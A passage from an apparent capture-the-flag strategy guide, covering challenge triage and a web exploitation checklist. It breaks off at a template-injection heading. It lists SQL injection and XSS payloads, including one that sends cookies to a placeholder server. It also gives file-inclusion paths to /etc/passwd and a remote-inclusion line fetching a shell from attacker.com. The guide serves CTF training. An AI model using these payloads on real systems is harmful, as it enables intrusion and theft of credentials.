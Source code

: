   - **How:**
    - **Only if:** You've cleared most easy/mediums, or a hard challenge falls squarely into your niche expertise and the description gives you a strong lead.
    - **Team Play (if applicable):** Often good for collaboration.
    - **Time Check:** Don't start a potentially very hard challenge if there's little time left in the CTF, unless you're confident of a quick breakthrough.
    - **Look for Dependencies:** Sometimes harder challenges build upon information or tools from easier ones.

**General Triage Rules:**

- **Don't Get Stuck:** If you're not making progress on a challenge after a reasonable amount of time (e.g., 15-20 mins for easy, 30-45 for medium), take a break from it, document what you've tried, and switch to another. Tunnel vision is a CTF killer.
- **Read Carefully:** Misinterpreting the challenge description is a common pitfall. Read it multiple times.
- **Note Everything:** What you tried, what worked, what didn't, any interesting observations. This is vital if you return to a challenge later or if it's part of a chain.

### **2\. Domain-Wise Checklists & Tactics**

#### **A. Web Exploitation**

**Initial Steps:**

1. **Reconnaissance:**
    - View HTML source (Ctrl+U or right-click -> View Page Source). Look for comments, hidden fields, JavaScript files, API endpoints.
    - Check robots.txt, sitemap.xml, .well-known/security.txt.
    - Inspect HTTP headers (developer tools -> Network tab). Look for custom headers, cookies, server technologies.
    - Directory/file fuzzing: dirb, gobuster, ffuf.
        - `gobuster dir -u http://&lt;target&gt;/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js,bak,old`
    - Subdomain enumeration (if applicable).
    - Technology stack identification (Wappalyzer extension, whatweb).
2. **Spider/Crawl:** Use Burp Suite's spider or a manual crawl to map out the application.
3. **Analyze JavaScript:** Look for client-side logic, API calls, hardcoded credentials, or interesting comments. Use JS Beautifier.

**Common Vulnerabilities & Tactics:**

- **SQL Injection (SQLi):**
  - Check all input parameters (GET, POST, HTTP Headers, Cookies).
  - Manual: `'`, `"` , `sleep(5)--`, `OR 1=1--`
  - Boolean-based, Error-based, Union-based, Time-based, Out-of-band.
  - Payloads: `admin' OR '1'='1` , `admin' OR '1'='1'#`, `admin' OR '1'='1'-- -`, `1' UNION SELECT null, version()-- -`
  - Tools: `sqlmap -u "http://&lt;target&gt;/vuln.php?id=1" --dbs --batch`
- **Cross-Site Scripting (XSS):**
  - Reflected, Stored, DOM-based.
  - Payloads: `&lt;script&gt;alert(1)&lt;/script&gt;`, `&lt;img src=x onerror=alert(document.cookie)&gt;`, `&lt;svg onload=alert(1)&gt;`, `<script>fetch('https://yourserver.com?cookie='+document.cookie)</script>`
  - Test in all input fields, URL parameters, HTTP headers that might be reflected.
  - Bypass filters: Case variations, encoding (HTML entities, URL encoding), event handlers.
- **Local File Inclusion (LFI) / Remote File Inclusion (RFI):**
  - `?file=../../../../etc/passwd`, `?page=../../../../windows/win.ini`
  - PHP Wrappers: `php://filter/convert.base64-encode/resource=index.php, php://input (with POST data)`
  - Null byte bypass: `../../../../etc/passwd%00` (less common now).
  - RFI: `?page=<http://attacker.com/shell.txt>`
- **Server-Side Template Injection (SSTI):**
  - Identify template engine (e.g., Jinja2, Twig, FreeMarker).
  - Payloads: